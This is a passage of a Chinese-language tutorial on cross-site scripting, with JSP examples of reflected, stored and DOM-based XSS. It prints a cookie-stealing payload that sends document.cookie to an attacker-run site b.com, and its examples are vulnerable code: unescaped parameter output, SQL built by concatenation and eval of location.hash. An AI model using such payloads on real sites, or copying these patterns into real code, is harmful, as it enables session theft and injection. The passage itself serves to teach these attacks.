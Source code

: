 嵌入到URL中的恶意脚本在Alice的浏览器中执行，就像它直接来自Bob的服务器一样。此脚本盗窃敏感信息（授权、信用卡、帐号信息等）然后在Alice完全不知情的情况下将这些信息发送到Charly的Web站点。

### DOM Based XSS

这种不是按照存储在哪里来划分的，可以说是反射型的一种，由于历史原因，归为一类，通过改变DOM结构形成的XSS称之为DOM Based。

## 三、例子

## eg.1 Reflected XSS 

```java
<% String eid = request.getParameter("eid"); %> 
	...
	Employee ID: <%= eid %>
```

jsp页面中，我们可能会像上面那样写。

最初这似乎不可能出现的漏洞，因为攻击者不可能用来输入一段而已的代码然后攻击自己的电脑，导致恶意代码运行在自己的电脑。但**真正的危险**是,攻击者将创建恶意URL,然后使用电子邮件或社会工程学技巧来吸引受害者访问的URL链接。受害者点击链接时,无意中反映了恶意的内容通过脆弱的web应用程序回自己的电脑。这个机制称为**反射型XSS攻击**

> 
当我登录a.com后，我发现它的页面某些内容是根据url中的一个叫eid的参数直接显示的。 我知道了Tom也注册了该网站，并且知道了他的邮箱(或者其它能接收信息的联系方式)，我做一个超链接发给他，超链接地址为：http://www.a.com?eid=<script>window.open(“www.b.com?param=”+document.cookie)</script>，当Tom点击这个链接的时候(假设他已经登录a.com)，浏览器就会直接打开b.com，并且把Tom在a.com中的cookie信息发送到b.com，b.com是我搭建的网站，当我的网站接收到该信息时，我就盗取了Tom在a.com的cookie信息，cookie信息中可能存有登录密码，攻击成功！这个过程中，受害者只有Tom自己。

## eg.2 Stored XSS

```java
<%... 
 Statement stmt = conn.createStatement();
 ResultSet rs = stmt.executeQuery("select * from emp where id="+eid);
 if (rs != null) {
  rs.next(); 
  String name = rs.getString("name");
%>

Employee Name: <%= name %>
```

这段代码功能是显示名字,但这并没有阻止被利用。这段代码相对上一种而言危险更小,因为名字是读取数据库的值。然而,如果名字来源于用户提供的输入,那么数据库可以为恶意内容的一个渠道。没有适当的输入验证数据就存储在数据库中,攻击者可以在用户的web浏览器中执行恶意命令，也就是**存储型XSS攻击**。

> 
 a.com可以发文章，我登录后在a.com中发布了一篇文章，文章中包含了恶意代码，<script>window.open(“www.b.com?param=”+document.cookie)</script>，保存文章。这时Tom和Jack看到了我发布的文章，当在查看我的文章时就都中招了，他们的cookie信息都发送到了我的服务器上，攻击成功

### eg.3 DOM Based XSS

`http://www.a.com/xss/domxss.html`页面中代码如下：

```java
<script>
eval(location.hash.substr(1));
</script>
```
